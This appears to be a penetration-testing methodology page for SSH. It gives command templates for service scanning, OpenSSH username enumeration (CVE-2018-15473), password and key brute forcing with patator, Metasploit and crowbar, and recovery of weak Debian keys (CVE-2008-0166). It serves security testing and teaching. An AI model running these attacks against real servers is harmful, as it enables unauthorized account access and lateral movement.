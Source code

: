 # SSH - Methodology

### Network scan

Nmap can be used to scan the network for SSH services:

```
nmap -v -p 22 -A -oA nmap_smb <RANGE/CIDR>
```

### User enumeration (CVE-2018-15473)

The OpenSSH service for all versions < 7.7 is vulnerable to username
enumeration.

The Python script `sshUsernameEnumExploit` as well as the `Metasploit` module
`auxiliary/scanner/ssh/ssh_enumusers` can be used to validate the presence of
a system user:

```
# [--threads THREADS] - Default to 5. If more than 10 are used, the OpenSSH service often gets overwhelmed
# [--outputFile OUTPUTFILE] [--outputFormat {list,json,csv}]
sshUsernameEnumExploit.py [--port PORT]  (--username <USERNAME> | --userList <USERLIST>) <HOST>

msf> use auxiliary/scanner/ssh/ssh_enumusers
```

### Supported authentication methods

A verbose connection attempt will display the authentication methods supported
by the server:

```
ssh -v <HOST>
debug1: Authentications that can continue:
```

###### Authentication methods available

The following authentication methods are possible:

  - *password authentication*: Simple request for a single password with no
  specific prompt

  - *keyboard interactive*: More complex request for arbitrary number of pieces
  of information. Can be hooked to two-factor (or multi-factor) authentications
  (PAM, Kerberos, etc.)  

  - *public key authentication*: Clients must provide a public key in the list
  of allowed keys on the server and encrypts a certain data packet using the
  private key. The public key authentication method is the only method that
  both client and server software are required to implement.

  - *host-based authentication*: Host-based authentication is used to
  restrict client access only to certain hosts. This method is similar to
  public key authentication; however, the server additionally maintains a list
  of hosts mapped to their public keys and will only accept connection with the
  keys from the pre recorded host.

###### Legacy DSA public key authentication

To connect to a server using DSA keys with a modern OpenSSH client, the
*PubkeyAcceptedKeyTypes +ssh-dss* option must be added to the client config:

```
echo 'PubkeyAcceptedKeyTypes +ssh-dss' > ~/.ssh/config
```

If the client is not correctly configured, the following debug error message
will be returned during the authentication process:

```
debug1: Skipping ssh-dss key ... - not in PubkeyAcceptedKeyTypes
```

### Authentication brute force

###### Password & keyboard interactive authentication

The `patator` Python script or the `Metasploit` module
`auxiliary/scanner/ssh/ssh_login` can be used to brute force credentials
through the password and keyboard interactive authentication methods:

```
# auth_type: auth type to use <password|keyboard-interactive>
patator ssh_login host=<HOST> user=<USERNAME> password=<PASSWORD> -x ignore:mesg='Authentication failed.'
patator ssh_login host=<HOST> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:mesg='Authentication failed.'

msf> auxiliary/scanner/ssh/ssh_login
```

###### Public keys authentication

The crowbar Python Script can be used to brute force SSH keys.  

While an exhaustive attack is not possible, the key based brute force can be
used for lateral movement once a private key could be compromised.

```
python crowbar.py -b sshkey (-u <USERNAME> | -U USERNAME_FILE) -k <KEY_FILE | KEY_FOLDER> -s <CIDR>
```

A repository of static authorized SSH keys "hardcoded" into software and
hardware products is available:

```
https://github.com/rapid7/ssh-badkeys
```

### Known vulnerabilities

###### OpenSSL Predictable PRNG (CVE-2008-0166)

Due to a default of implementation of the seeding process in the OpenSSL
package, all SSL and SSH keys generated on Debian-based systems (Ubuntu,
Kubuntu, etc) between September 2006 and May 13th, 2008 are cryptographically
weak.

All possible combination of public / private RSA (2048 and 4096 bits) and DSA
(1024 bits) keys can be downloaded here:

```
https://github.com/g0tmi1k/debian-ssh/tree/master/common_keys
https://github.com/g0tmi1k/debian-ssh/tree/master/uncommon_keys
```

To retrieve a private key if its public counterpart could somehow be extracted
from the server (/home/user/.ssh/authorized_keys through LFI or file system
disclosure, etc.):

```
# Only take the base64 content of the public key in format PEM
grep -rl <KEY> <FOLDER_RSA|FOLDER_DSA>
```
